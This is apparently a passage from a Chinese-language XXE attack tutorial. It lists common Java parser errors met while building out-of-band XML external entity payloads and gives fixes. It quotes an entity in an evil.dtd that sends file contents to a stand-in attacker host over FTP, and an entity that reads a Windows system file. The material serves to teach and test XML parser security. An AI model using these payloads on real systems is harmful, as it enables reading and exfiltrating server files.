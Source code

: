 
### 常见报错
**（1）内部参数实体引用**
```
 The entity name must immediately follow the '%' in the parameter entity reference
 
 The character reference must end with the ';' delimiter
```
这两个报错常见于在`evil.dtd`中。问题在于将`"<!ENTITY &#37; send SYSTEM 'ftp://evilip:port/%file;'>">`的`&#37;`写成了`%`
如果我们把a.txt换成windows下的敏感文件，如<!ENTITY % file SYSTEM "file:///c:/windows/system.ini">，java会报错Exception in thread "main" java.net.MalformedURLException: Illegal character in URL，这是因为敏感文件中可能存在特殊字符，造成编码问题。

**（2）协议不支持/编码问题**
```
java.net.MalformedURLException: no protocol
```
出现这个报错的可能性包括用了`expect`这种Java不支持的协议，或者编码存在问题，需要设定编码格式如下。
```
Document doc = builder.parse(new InputSource(new ByteArrayInputStream(send.getBytes("utf-8"))));  
```

**（3）xml格式存在问题**
```
The markup declarations contained or pointed to by the document type declaration must be well-formed
```
文档类型声明可能存在错误例如`<?xml version="1.0" encoding="utf-8"?><!DOCTYPE ...`闭合不完整

 

